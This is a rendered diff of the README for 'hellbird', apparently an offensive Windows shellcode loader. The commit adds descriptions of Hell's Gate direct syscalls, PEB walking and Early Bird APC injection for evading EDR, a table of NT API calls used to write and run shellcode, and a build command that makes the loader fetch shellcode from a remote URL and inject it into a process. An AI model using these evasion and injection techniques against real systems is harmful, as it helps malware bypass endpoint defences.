

Before and after one commit to grisuno/hellbird, a Markdown page: README.md, 3 parts joined by grey strips. Shown at 89% size. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/README.md
+++ b/README.md
@@ -36,6 +36,14 @@ This tool is intended **exclusively for academic and ethical penetration testing
 
 <img width="1706" height="329" alt="image" src="https://github.com/user-attachments/assets/61b9a1b0-d90d-4a81-a698-c39ee6e23b7c" />
 
+## Direct Syscall Implementation
+The framework implements the Hell's Gate technique to perform direct system calls, bypassing EDR userland hooks on NT API functions.
+
+## PEB Walking for NTDLL Resolution
+The framework implements robust PEB (Process Environment Block) walking to locate ntdll.dll without relying on standard APIs that may be hooked.
+
+## Process Injection Evasion
+The Early Bird APC injection technique combined with direct syscalls provides multiple layers of evasion against behavioral monitoring and EDR solutions.
 
 ### 🔧 Core Features
 
@@ -48,6 +56,14 @@ This tool is intended **exclusively for academic and ethical penetration testing
 | **Anti-Analysis** | Detects VM environments (VMware, VirtualBox, QEMU, Xen) via registry checks and exits if detected. |
 | **Manual HTTP Client** | Implements a minimal HTTP 1.1 client using WinSock to avoid `WinINet`/`WinHTTP` detection. |
 | **Stackless Compilation** | Compiled with `-fno-stack-protector` and optimized for size (`-Os`) to reduce footprint. |
+
+| **NT API Function**	| Purpose	| Syscall Usage  |
+|---------------------|---------|----------------|
+| **NtAllocateVirtualMemory** |	Allocate RWX memory in target process |	HellsGate(ssn_alloc) + HellDescent() |
+| **NtWriteVirtualMemory** |	Write shellcode to allocated memory |	HellsGate(ssn_write) + HellDescent() |
+| **NtProtectVirtualMemory** |	Change memory protection to executable |	HellsGate(ssn_protect) + HellDescent() |
+| **NtQueueApcThread** |	Queue APC for shellcode execution |	HellsGate(ssn_apc) + HellDescent() |
+| **NtResumeThread** |	Resume suspended thread to trigger APC |	HellsGate(ssn_resume) + HellDescent() |
 
 
 <img width="1401" height="707" alt="image" src="https://github.com/user-attachments/assets/268a2750-ede9-4967-ab20-378f29fd5acb" />
@@ -67,13 +83,22 @@ sudo apt install mingw-w64
 ```
 ### Build
 ```bash
-./gen_ebird3.sh \
+./gen_hellbird3.sh \
   --target windows \
   --url "http://192.168.1.100/shellcode.txt" \
   --process-name "C:/Windows/System32/calc.exe" \
   --key 0x33
 ```
-> ✅ Output: ebird2.exe — a fully self-contained Windows executable.
+> ✅ Output: hellbird.exe — a fully self-contained Windows executable.
+
+### Compilation Flags Analysis
+#### Flag	Purpose	Security Impact
+
+- -lws2_32	Link Winsock library	Network functionality
+- -s	Strip symbols	Anti-analysis
+- -Os	Optimize for size	Reduced footprint
+- -fno-stack-protector	Disable stack protection	Evasion technique
+- -static	Static linking	Standalone executable
 
 ## 🧩 Code Architecture
 1. String Obfuscation
````
